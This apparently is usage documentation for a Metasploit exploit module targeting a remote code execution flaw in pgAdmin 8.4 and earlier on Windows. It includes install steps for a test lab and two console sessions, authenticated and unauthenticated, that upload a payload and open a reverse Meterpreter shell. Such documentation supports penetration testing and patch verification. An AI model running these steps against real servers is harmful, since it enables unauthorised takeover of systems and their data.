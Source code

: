 *## Vulnerable Application
The pgAdmin versions up to 8.4 are vulnerable to a Remote Code Execution (RCE) flaw through the validate binary path API. This vulnerability allows attackers to run arbitrary code on the server hosting pgAdmin, which poses a significant threat to the integrity of the database management system and the security of its underlying data.

The exploit can be executed in both authenticated and unauthenticated scenarios. When valid credentials are available, Metasploit can log in to pgAdmin, upload a malicious payload using the file management plugin, and then execute it via the validate_binary_path endpoint. This vulnerability is specific to Windows targets. If authentication is not required by the application, Metasploit can directly upload and trigger the payload through the validate_binary_path endpoint.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/multi/http/pgadmin_binary_path_api`
1. Set the `RHOST`, `PAYLOAD`, and optionally the `USERNAME` and `PASSWORD` options
1. Do: `run`


### Installation (Windows)

These steps are the bare minimum to get the application to run for testing and should not be use for a production setup.
For a production setup, a server like Apache should be setup to run pgAdmin through it's WSGI interface.

**The following paths are all relative to the default installation path `C:\Program Files\pgAdmin 4\web`**.

1. [Download][1] and install the Windows build
1. Copy the `config_distro.py` file to `config_local.py`
1. Edit `config_local.py` and set `SERVER_MODE` to `True`
1. Initialize the database: `..\python\python.exe setup.py setup-db`
1. Create an initial user account: `..\python\python.exe setup.py add-user --admin test@test.com 123456`
1. Run the application: `..\python\python.exe pgAdmin4.py`

## Scenarios
Specific demo of using the module that might be useful in a real world scenario.

### pgAdmin 8.4 on Windows (Authenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.5
RHOSTS => 192.168.1.5
msf6 exploit(windows/http/pgadmin_binary_path_api) > set USERNAME test@test.com
USERNAME => test@test.com
msf6 exploit(windows/http/pgadmin_binary_path_api) > set PASSWORD 123456
PASSWORD => 123456
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Successfully authenticated to pgAdmin
[*] Payload uploaded to: C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe
[*] Sending stage (201798 bytes) to 192.168.1.5
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.5:52588) at 2024-08-26 19:48:10 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\Desktop\CVE-2024-3116\pgadmin4\storage\test_test.com/pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-FMNV75N
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > 

```

### pgAdmin 8.4 on Windows (Unauthenticated)

```
msf6 exploit(windows/http/pgadmin_binary_path_api) > set RHOSTS 192.168.1.7
RHOSTS => 192.168.1.7
msf6 exploit(windows/http/pgadmin_binary_path_api) > set LHOST 192.168.1.6 
LHOST => 192.168.1.6
msf6 exploit(windows/http/pgadmin_binary_path_api) > exploit 

[*] Started reverse TCP handler on 192.168.1.6:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. pgAdmin version 8.4.0 is affected
[*] Payload uploaded to: C:\Users\pgAdmin\pg_restore.exe
[*] Sending stage (200774 bytes) to 192.168.1.7
[*] Meterpreter session 1 opened (192.168.1.6:4444 -> 192.168.1.7:55560) at 2024-08-26 19:51:01 +0200
[!] This exploit may require manual cleanup of 'C:\Users\pgAdmin\pg_restore.exe' on the target

meterpreter > sysinfo
Computer        : DESKTOP-HTGS43E
OS              : Windows 10 (10.0 Build 22000).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > 

```

